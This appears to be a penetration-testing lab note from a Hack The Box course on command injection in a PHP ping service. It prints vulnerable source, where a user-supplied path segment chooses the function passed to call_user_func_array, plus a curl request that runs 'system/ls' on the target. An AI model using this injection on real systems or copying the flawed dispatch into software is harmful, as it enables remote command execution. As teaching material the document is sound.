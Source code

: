 ```yaml
---
title: d-Command Injection
draft: false
tags:
  - commandi
---
```

> Suppose we are assessing such a connectivity-checking service residing in `http://<TARGET IP>:3003/ping-server.php/ping`. Suppose we have also been provided with the source code of the service.


```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

A function called _ping_ is defined, which takes two arguments _host_url_ip_ and _packets_. The request should look similar to the following. `http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3`. To check that the web service is sending ping requests, execute the below in your attacking machine and then issue the request.

```shell-session
jadu101@htb[/htb]$ sudo tcpdump -i tun0 icmp
 tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
 listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 11:10:22.521853 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 1, length 64
 11:10:22.521885 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 1, length 64
 11:10:23.522744 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 2, length 64
 11:10:23.522781 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 2, length 64
 11:10:24.523726 IP 10.129.202.133 > 10.10.14.222: ICMP echo request, id 1, seq 3, length 64
 11:10:24.523758 IP 10.10.14.222 > 10.129.202.133: ICMP echo reply, id 1, seq 3, length 64
```

You can test the command injection vulnerability as follows.

```shell-session
jadu101@htb[/htb]$ curl http://<TARGET IP>:3003/ping-server.php/system/ls
index.php
ping-server.php
```